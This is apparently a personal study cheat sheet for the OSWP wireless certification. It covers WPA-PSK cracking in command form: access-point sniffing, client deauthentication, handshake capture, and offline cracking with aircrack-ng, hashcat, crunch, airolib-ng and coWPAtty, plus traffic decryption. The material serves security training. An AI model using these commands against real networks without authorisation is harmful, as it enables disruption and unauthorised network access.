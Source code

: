 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/4-psk-cracking/","updated":"2024-01-05T11:37:18.508+01:00"}
---
```


------------
### Crack walkthrough:
1. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
2. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
3. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
- If not captures handshake try without "-c"
4. Crack handshake:
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
5. Decrypt traffic:
```
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap
```

---
### John cracking:
```
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap
```

----------------
### Crunch:
- Generate password lists
- Usage:
```
crunch <minlength> <maxlength> <characters> -t <pattern> -p <words>
```
- Example:
```
crunch 11 11 0123456789 -t password@@@
-
Crunch will now generate the following number of lines: 1000
password000
password001
password002
password003
```
- Example 2:
```
crunch 5 5 -t ddd% | aircrack-ng -e wifu crunch-01.cap -w -
```

--------
### RSMangler
- Ruby script for modifying wordlists in all ways
- Usage:
```
rsmangler --file wordlist.txt --min 12 --max 13 --output mangled.txt
```
Use with aircrack:
```
rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu rsmangler-01.cap -w -
```

-----
### Hashcat
- List cracking devices:
```
hashcat -I
```
- Run benchmark for mode:
```
hashcat -b -m <mode>
```
- Specify device:
```
hashcat -d <device-nr>
```
- Specify device type (CPU, GPU, FPGSA, DSP etc.):
```
hashcat -D <device-type>
```
- Convert .cap to hashcat-compatible:
```
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx  
```
- Crack the hash:
```
hashcat -m 2500 output.hccapx /usr/share/john/password.lst  
```

------------
### Airolib-ng
- Tool to pre-generate PMKs which lets aircrack-ng check more than 50000 hashes/second
- Usage:
1. Create file containing ESSID of target AP:
```
echo wifu > essid.txt
```
2. Import ESSID into database:
```
airolib-ng <db-name>.sqlite --import essid essid.txt
```
3. List info about DB:
```
airolib-ng <db-name>.sqlite --stats
```
4. Import passwords to DB:
```
airolib-ng <db-name>.sqlite --import passwd /usr/share/john/password.lst
```
5. Process DB and generate PMKs:
```
airolib-ng <db-name>.sqlite --batch
```
6. Initiate crack:
```
aircrack-ng -r <db-name>.sqlite wpa1-01.cap
```

---------
### coWPAtty:
- Similar to airolib-ng, creates rainbow tables for ESSIDs
- Usage:
1. Generate table:
```
genpmk -f /usr/share/john/password.lst -d <outfile> -s <essid>
```
2. Crack with coWPAtty:
```
cowpatty -r wpajohn-01.cap -d <outfile> -s wifu
```

